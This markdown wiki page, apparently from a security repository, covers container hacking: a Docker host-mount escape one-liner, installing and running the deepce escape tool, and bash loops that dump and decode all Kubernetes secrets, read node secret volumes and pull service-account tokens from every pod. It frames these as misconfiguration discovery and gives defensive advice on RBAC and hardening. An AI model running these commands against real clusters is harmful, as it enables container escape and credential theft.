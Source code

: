 # Container Hacking Techniques

- [Container Hacking Techniques](#container-hacking-techniques)
  - [Docker](#docker)
    - [Leveraging unsecure mount](#leveraging-unsecure-mount)
    - [Exploiting common missconfigurations - deepce.sh](#exploiting-common-missconfigurations---deepcesh)
  - [Kubernetes](#kubernetes)
    - [Retrieving secrets](#retrieving-secrets)
      - [Service Account secrets](#service-account-secrets)

This wiki aims to summarize many of the most interesting hacking and discovery approaches to identify and exploit missconfigurations in containerized environments.
Check [Container Security In Depth](../../container-security-in-depth.md) for understanding proper security measures to be applied to reduce the risk and likelihood of success of an attacker.

## Docker

### Leveraging unsecure mount

As explained in [container-security-in-depth.md](../../container-security-in-depth.md), Docker group is sensitive and must be highly restricted, combined with secure policies restricting the mounts.

If not properly configured, this can be exploited by mounting the whole host filesystem into the container and then scaping with chroot capabilities. Check [docker - gtfobins](https://gtfobins.github.io/gtfobins/docker/) for further information.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![Unsecure mount](img/00-unsecure-mount.png)

### Exploiting common missconfigurations - deepce.sh

[Deepce](https://github.com/stealthcopter/deepce) is an interesting contribution from open source container focused in exploiting well known missconfigurations for escaping containers and escalating privileges.

To install it:

```bash
sudo curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o /usr/local/bin/deepce.sh; sudo  chmod +x /usr/local/bin/deepce.sh
```

```bash
deepce.sh -e DOCKER
```

![Deepce](img/01-deepce-execution.png)

Following screenshot showcase possible exploitable paths to leverage access to the system. The last step is executing the exploit mentioned in [#leveraging-unsecure-mount](#leveraging-unsecure-mount).

## Kubernetes

### Retrieving secrets

Kubernetes secrets shall not be considered a proper robust measure for managing secrets for applications. Either `read` permissions over secrets in namespace or cluster-wide or having the possibility to exec in the pod, can expose the real content of the secrets.

Secrets are `base64 encoded` so those are easy to retrieve.

If a user has access to the pod, it is not complicated to obtain the values.

Here I register some discovery techniques:

```bash
for secret in $(kubectl get secrets --all-namespaces -o jsonpath="{range .items[*]}{.metadata.name}:{.metadata.namespace}{'\n'}{end}");do
  name=$(echo ${secret} | cut -d ":" -f 1)
  namespace=$(echo ${secret} | cut -d ":" -f 2)
  data=$(kubectl get secrets ${name} -n ${namespace} -o=jsonpath="{.data}")
  echo ${data} | jq -r 'to_entries[] | .key + ": " + .value' | while IFS=": " read -r key value; do
      echo -e "\e[32mSecret name: $key:\e[0m\n\e[34mSecret value: $(echo $value | base64 --decode)\e[0m\n\n"
  done
done
```


Get all volumes mounted from secret in host:

```bash
for container in $(crictl ps | tail -n+2 | awk {'print $1'});do
  for volume in $(crictl inspect $container | jq -r .status.mounts[].hostPath |  grep "kubernetes.io~secret");do
    for data in $(ls ${volume}); do
      cat ${volume}/${data}
    done
  done
done
```

> \[!NOTE\]
> Above automation needs to be executed in each of the nodes to retrieve the node specific secrets mounted as volumes for the containers. Requires root permission, but evidences that the secrets are accessible. In an ideal scenario, the administrator shall not access the real secrets of an application of the bank, only because he should manage the infra. Makes sense?

Summary:

- Secrets are accessible either by environment variables or mounts. This is not a big challenge to retrieve, so RBAC takes a lot of importance in protecting the organization as well as using dynamic secret retrieval with Vault Managers instead of leveraging kubernetes secrets directly.
- Secrets are defined in base64 and therefore **not encrypted**. If someone has `read` permission over secrets, it is trivial to retrieve the real value of those.

#### Service Account secrets

By default if not properly configured, a kubernetes cluster mounts the `default` service account in each `namespace` for each pod deployed there. Also, other service accounts may have been created in the cluster and mapped against a pod (or deployment, daemonsets, statefulsets definitions).

These service accounts are mounted in `/var/run/secrets/kubernetes.io/serviceaccount/` of the pod as shown in below example.

![SA](img/02-sa-mount.png)

A `"good"` hacking practice is to obtain all service accounts that are visible (depending on the permissions), trying to get a more privileged sa than the user permissions (e.g. Jenkins with `Kubernetes Cloud` is likely to have interesting permissions.)

```bash
for secret in $(kubectl get pods --all-namespaces -o jsonpath="{range .items[*]}{.metadata.name}:{.metadata.namespace}{'\n'}{end}");do
  name=$(echo ${secret} | cut -d ":" -f 1)
  namespace=$(echo ${secret} | cut -d ":" -f 2)
  mounts_=$(kubectl exec -it ${name} -n ${namespace} -- ls /var/run/secrets/kubernetes.io/serviceaccount/)
  token=$(kubectl exec -it ${name} -n ${namespace} -- cat /var/run/secrets/kubernetes.io/serviceaccount/token)
  echo -e "\e[32mPod: $name in $namespace:\e[0m\n\e[34mSA mounts\n $mounts_:\n token $token\e[0m\n\n"
done
```

![Token retrieval](img/03-token-retrieval.png)

> \[!CAUTION\]
> Notice that not all the returns are successful. As explained in other chapter, using secure images can reduce the attack surface. There are very limited images such as the ones built from scratch or distroless that do not have even `ls` or `cat` commands available. It could also happen that the system calls are filtered with `seccomp`. Having said that, as you notice in the screenshot, having exec permissions is quite critical to be able to retrieve majority of the secrets of the cluster and therefore the RBAC must be well defined and tight to protect the organization.